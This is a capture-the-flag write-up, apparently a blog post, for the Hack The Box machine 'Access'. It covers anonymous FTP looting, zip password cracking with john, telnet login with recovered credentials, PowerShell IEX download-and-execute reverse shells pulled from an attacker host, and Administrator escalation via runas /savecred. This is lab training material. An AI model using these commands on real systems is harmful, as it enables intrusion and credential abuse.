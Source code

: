 ```yaml
---
layout: post
title: "Access"
date: 2025-04-20 
categories: CTPS Playlist
---
```


# Access

## Summary

• ftp anonymous login
• wget to get files
• john to crack password
• strings to create wordlist from db file
• mdb-tables
• custom script to output tables into files
• 7z to see encryption methods in zip files
• IEX to download and execute files
• abusing runas and savecred

## Attack Path

First let’s enumerate the open ports and services:

```bash
sudo nmap -sC -sV -oN nmap/access 10.10.10.98

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Let’s check out anon authentication for ftp:

```bash
ftp 10.10.10.98

#we are in
cd Backup
binary    #need binary mode since the db data is binary, otherwise risk corruption
get backup.mdb
cd ../Engineer
get "Access Control.zip"
```

Another way to download:

```bash
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
```

We have a microsoft database:

```bash
file backup.mdb

backup.mdb: Microsoft Access Database

mdb-tables backup.mdb

#db is corrupt

mdb-export backup.mdb auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,

#if we done this step, we immediately get the password
```

Let’s just use strings:

```bash
strings -n 8 backup.mdb
```

![image.png]({{ site.baseurl }}/assets/access/image.png)

It should contain some sort of password. Let’s keep that in mind and create a wordlist:

```bash
strings -n 8 backup.mdb > pwlist
```

The zip file requires a password:

```bash
7z e Access\ Control.zip 

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:6 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed):

```

Let’s convert it to john hash:

```bash
zip2john "Access Control.zip" > access.hash
```

Now let’s see if there are any strings from the db that matches the password:

```bash
john --wordlist=pwlist access.hash

access4u@security (Access Control.zip/Access Control.pst)
```

Success!

We get a pst file:

```bash
file Access\ Control.pst 

Access Control.pst: Microsoft Outlook Personal Storage (>=2003, Unicode, version 23), dwReserved1=0x234, dwReserved2=0x22f3a, bidUnused=0000000000000000, dwUnique=0x39, 271360 bytes, bCryptMethod=1, CRC32 0x744a1e2e
```

Let’s convert it to mbox format so we can read it with evolution:

```bash
readpst Access\ Control.pst

open 'Access Control.mbox'
```

Now open it in evolution after importing it from the pop up prompt.

![image.png]({{ site.baseurl }}/assets/access/image%201.png)

There’s the web page and port 23 which we haven’t checked out yet. Let’s look at the web page

![image.png]({{ site.baseurl }}/assets/access/image%202.png)

Let’s fuzz the server:

```bash
feroxbuster -u http://10.10.10.98/

301      GET        2l       10w      156c http://10.10.10.98/aspnet_client => http://10.10.10.98/aspnet_client/
200      GET      274l     1766w   162337c http://10.10.10.98/out.jpg
200      GET       14l       31w      391c http://10.10.10.98/
301      GET        2l       10w      156c http://10.10.10.98/Aspnet_client => http://10.10.10.98/Aspnet_client/
301      GET        2l       10w      156c http://10.10.10.98/aspnet_Client => http://10.10.10.98/aspnet_Client/
301      GET        2l       10w      167c http://10.10.10.98/aspnet_client/system_web => http://10.10.10.98/aspnet_client/system_web/
301      GET        2l       10w      156c http://10.10.10.98/ASPNET_CLIENT => http://10.10.10.98/ASPNET_CLIENT/
301      GET        2l       10w      167c http://10.10.10.98/Aspnet_client/system_web => http://10.10.10.98/Aspnet_client/system_web/

```

![image.png]({{ site.baseurl }}/assets/access/image%203.png)

Let’s check out port 23. Nmap tells us that it’s potentially using telnet. Let’s try:

```bash
telnet 10.10.10.98 23
```

![image.png]({{ site.baseurl }}/assets/access/image%204.png)

Let’s try the security login:

```bash
security:4Cc3ssC0ntr0ller
```

We are in:

![image.png]({{ site.baseurl }}/assets/access/image%205.png)

```bash
dir C:\

08/23/2018  11:05 PM    <DIR>          inetpub
07/14/2009  04:20 AM    <DIR>          PerfLogs
08/23/2018  09:53 PM    <DIR>          Program Files
08/24/2018  08:40 PM    <DIR>          Program Files (x86)
08/24/2018  08:39 PM    <DIR>          temp
08/21/2018  11:31 PM    <DIR>          Users
07/14/2021  02:04 PM    <DIR>          Windows
08/22/2018  08:23 AM    <DIR>          ZKTeco
```

We do not have any privileges on the machine.

Let’s get a better shell like ConPTYShell.

```bash
cp /home/kali/tools/Invoke-ConPtyShell.ps1 shell.ps1

python3 -m http.server 8001
```

Now start a listener:

```bash
stty raw -echo; (stty size; cat) | nc -lvnp 3001

```

On the telnet shell:

```bash

powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7:8001/shell.ps1')

```

Does not work.  Let’s just try a simple shell from nishang; change the IP and port to our desired:

```bash
#attack host
nc -lnvp 4444

#target
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7:8001/rev.ps1')
```

We now have a better shell:

![image.png]({{ site.baseurl }}/assets/access/image%206.png)

```bash
cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

We can run commands as Administrator:

```bash
runas /savecred /user:ACCESS\Administrator "whoami"

runas /savecred /user:ACCESS\Administrator "dir"

```

Because we are in a reverse shell, normal stdin/out are not outputted to us. Let’s get another reverse shell:

```bash
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7:8001/rev2.ps1')

runas /savecred /user:ACCESS\Administrator "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7:8001/rev2.ps1')"

#if this doesn't work, try powershell encoding
```

We now have Administrator shell.